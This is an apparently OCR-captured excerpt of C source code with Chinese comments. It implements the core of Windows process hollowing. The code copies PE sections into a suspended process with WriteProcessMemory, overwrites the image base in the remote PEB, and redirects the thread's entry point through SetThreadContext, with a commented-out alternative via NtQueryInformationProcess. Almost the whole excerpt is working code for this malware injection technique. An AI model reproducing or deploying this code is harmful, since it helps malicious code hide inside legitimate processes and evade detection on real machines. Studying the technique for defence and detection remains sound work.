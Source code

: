 ```c
	PIMAGE_SECTION_HEADER pSectionHeader;
	for (DWORD dwIndex = 0; dwIndex < pNtHeaders->FileHeader.NumberOfSections; ++dwIndex)
	{
		pSectionHeader = (PIMAGE_SECTION_HEADER)lpSectionBaseAddr;
		// 句柄，要写入进程的地址，指向本程序的要往外写的内容的地址
		LPVOID RemoteProcess_address = (LPVOID)((BYTE*)lpAddr + pSectionHeader->VirtualAddress);
		LPVOID LocalProcess_address = (LPCVOID)(pBuf + pSectionHeader->PointerToRawData);
		if (!WriteProcessMemory(pi.hProcess, RemoteProcess_address, LocalProcess_address, pSectionHeader->SizeOfRawData, NULL))
		{
			printf("WriteProcessMemory error code : %d\n", GetLastError());
			return 1;
		}
		lpSectionBaseAddr = (LPVOID)((BYTE*)lpSectionBaseAddr + sizeof(IMAGE_SECTION_HEADER));
	}
	//6.恢复现场并运行傀儡进程
		// 替换PEB中基地址
	DWORD dwImageBase = pNtHeaders->OptionalHeader.ImageBase;

// 另一种修改peb的方式
	/*
	NtQueryInformationProcessPtr NtQueryInformationProcess = (NtQueryInformationProcessPtr)GetProcAddress(hNtdll, "NtQueryInformationProcess");
	//find base addr by peb
	PROCESS_BASIC_INFORMATION pbi;
	ULONG ReturnLength;
	NTSTATUS status = NtQueryInformationProcess(pi.hProcess, 0, &pbi, sizeof(pbi), &ReturnLength);
	if (status != 0)
	{
		printf("NtQueryInformationProcess 失败，错误码 %lu\n", status);
		return 1;
	}
	// peb offset
	DWORD_PTR pef_offset = (DWORD_PTR)pbi.PebBaseAddress;

	// 修改peb结构体中的baseaddress的值
	if (!WriteProcessMemory(pi.hProcess, (LPVOID)((BYTE*)pef_offset+0x10), (LPCVOID)&dwImageBase, sizeof(PVOID), NULL))
	{
		printf("WriteProcessMemory error code : %d\n", GetLastError());
		return 1;
	}
	*/
// 另一种修改peb的方式 rdx保留了peb的baseaddr, 不要使用(LPCVOID)&dwImageBase，会造成高地址全是cc
	//WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
	if (!WriteProcessMemory(pi.hProcess, (LPVOID)((ctx.Rdx)+0x10), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL))
	{
		printf("WriteProcessMemory error code : %d\n", GetLastError());
		return 1;
	}

	// 替换入口点 64 -> rcx; 32 -> eax
	//ctx.Rcx = dwImageBase + pNtHeaders->OptionalHeader.AddressOfEntryPoint;

	ctx.Rcx = (SIZE_T)((LPBYTE)pNtHeaders->OptionalHeader.ImageBase + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
	if (!SetThreadContext(pi.hThread, &ctx))
	{
		printf("SetThreadContext failed : %d\n", GetLastError());
		return 1;
	}
```